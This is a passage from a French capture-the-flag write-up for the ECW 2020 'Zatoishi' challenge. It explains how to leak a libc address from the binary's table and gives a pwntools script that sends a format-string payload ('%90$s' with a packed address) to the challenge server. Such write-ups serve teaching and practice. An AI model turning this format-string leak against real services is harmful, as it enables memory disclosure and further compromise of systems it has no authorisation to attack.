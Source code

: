 ![](/assets/images/ECW_PREQUALS_2020/Zatoishi/6.png)

# Step3: leak la libc

Grace au binaire, nous pouvons avoir les adresses des fonctions dans la libc, est donc, savoir laquelle est utilisée. Lorsque l'aslr est activé, l'offset ajouté est un multiple de 0x1000. Du coup, on peut se servir du byte et demi restant pour se repérer.

Dans l'entry0, la fonction qui est appelée est toujours __libc_start_main.

![](/assets/images/ECW_PREQUALS_2020/Zatoishi/7.png)

![](/assets/images/ECW_PREQUALS_2020/Zatoishi/8.png)

L'adresse de __libc_start_main est donc stockée à l'adresse 0x00602060 dans le binaire.

```python
from pwn import *
import binascii
import re

r = remote('challenge-ecw.fr', 2020, level='error')
r.recv()
payload = b'HELO %90$s'+b'BBBBBB'+p64(0x602060)
print(payload)
r.sendline(payload)
data = r.recv()
print(data)
```

